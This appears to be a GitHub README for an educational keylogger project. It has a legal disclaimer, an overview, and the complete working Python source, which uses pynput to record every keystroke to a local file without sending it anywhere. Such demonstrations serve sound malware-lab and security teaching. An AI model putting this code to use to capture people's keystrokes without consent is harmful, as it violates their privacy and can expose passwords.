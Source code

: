 # Ethical Keylogger Project

## 🚨 Disclaimer

This project is intended strictly for educational and research purposes within controlled environments such as virtual labs, cybersecurity courses, or red team/blue team training scenarios. </br>

- Do not use this tool to monitor, log, or interfere with any system or user without their explicit, informed consent. </br>

- Unauthorized use of keyloggers or similar software is a criminal offense in many jurisdictions and may violate privacy laws, terms of service, and organizational policies. </br>

- The author of this repository does not condone any illegal activity and is not responsible for any misuse of the code or tools contained herein. </br>

- Use at your own risk and only on systems you own or are legally authorized to test. </br>

## Overview

This project is a Python-based keylogger built for educational, cybersecurity, and malware simulation purposes. It captures and logs keystrokes on a local system, including both standard and special keys (e.g., Enter, Tab, Shift, Control), and writes them to a plain text file for analysis. The tool demonstrates fundamental techniques used in basic keylogging and forms the foundation for understanding more advanced topics in malware behavior, digital forensics, and threat simulation. </br>

Key features: </br>

- Real-time keystroke capture using the pynput library. </br>

- Logging of alphanumeric and special keys to key_log.txt. </br>

- Simple and extensible architecture suitable for malware lab simulations. </br>

- Designed for ethical use in controlled environments only. </br>

## Project

#### Keylogger Code

```shell
from pynput import keyboard

log_file = "key_log.txt"

def on_press(key):
    print(f"Key pressed: {key}")  # Debug print
    try:
        with open(log_file, "a") as f:
            f.write(f'{key.char}')
    except AttributeError:
        with open(log_file, "a") as f:
            if key == keyboard.Key.space:
                f.write(' ')
            elif key == keyboard.Key.enter:
                f.write('\n')
            elif key == keyboard.Key.tab:
                f.write('\t')
            elif key == keyboard.Key.backspace:
                f.write('[Backspace]')
            elif key in (keyboard.Key.shift, keyboard.Key.shift_r):
                f.write('[Shift]')
            elif key in (keyboard.Key.ctrl, keyboard.Key.ctrl_r):
                f.write('[Control]')
            else:
                f.write(f'[{key}]')  # Log other special keys

with keyboard.Listener(on_press=on_press) as listener:
    print("Keylogger is running... Press Ctrl+C to stop.")
    listener.join()
```

## Video Walkthrough

https://youtu.be/agXRtUbqxds
